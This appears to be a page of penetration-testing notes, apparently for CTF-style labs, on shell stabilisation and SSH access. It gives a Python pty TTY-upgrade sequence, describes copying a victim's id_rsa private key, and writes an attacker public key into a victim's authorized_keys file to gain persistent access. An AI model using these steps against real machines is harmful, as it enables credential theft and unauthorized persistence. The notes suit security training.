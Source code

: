 **Kali**

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

## Unit 1 - ssh

To make things even better, you should always try and get shell access to the box.

**id\_rsa** file that contains a private key that can be used to connect to a box via ssh. It is usually located in the `.ssh` folder in the user's home folder. (Full path: `/home/user/.ssh/id_rsa`)\
Get that file on your system and give it read/write-only permissions for your user:\
(`chmod 600 id_rsa`) and connect by executing `ssh -i id_rsa user@ip`).

In case if the target box does not have a generated **id\_rsa** file (or you simply don't have reading permissions for it), you can still gain stable ssh access. All you need to do is generate your own **id\_rsa** key on your system and include an associated key into **authorized\_keys** file on the target machine.\
Execute `ssh-keygen` and you should see **id\_rsa** and `id_rsa.pub` files appear in your own **.ssh** folder. Copy the content of the **id\_rsa.pub** file and put it inside the **authorized\_keys** file on the target machine (located in .ssh folder). After that, connect to the machine using your id\_rsa file.

![](https://i.imgur.com/CZ6JRkW.jpg)

**Kali**

```
ssh-keygen -t rsa
cat /root/.ssh/id_rsa.pub
```

<figure><img src="../../.gitbook/assets/image (1154).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQChZwRGJcmWRVnscJ+Px99QCfSY4eGfc4i6P1R2SnkFBG/wJrE77GDY9bJA41ZnC5u5uCr5uLDte7I1F1SFiUJCD0ueW5r1eSyHZ5bM3FFSfSWsNcGoAA+SyUhRRmki459Glv2FmBvyCck/qYvhb5+o6Vpvr02os7sF/qBP6vdzjarQoih346NKaCcn6S95xdKS88s52aCge2kuMXl+PwgT7/uH49oTSh4eQ8/lHBLqvZois9gNAx3amKWt26XsHmx4ZcJXuNMW/usflE3XkDy7w0GGkqa0vPfbDII58KwN6eI8rI+xH2E/t/4gJbqIxi6cQQtSm6DO74pUpdi596EX root@ip-10-10-244-102" > /home/manager/.ssh/authorized_keys
```

**Kali**
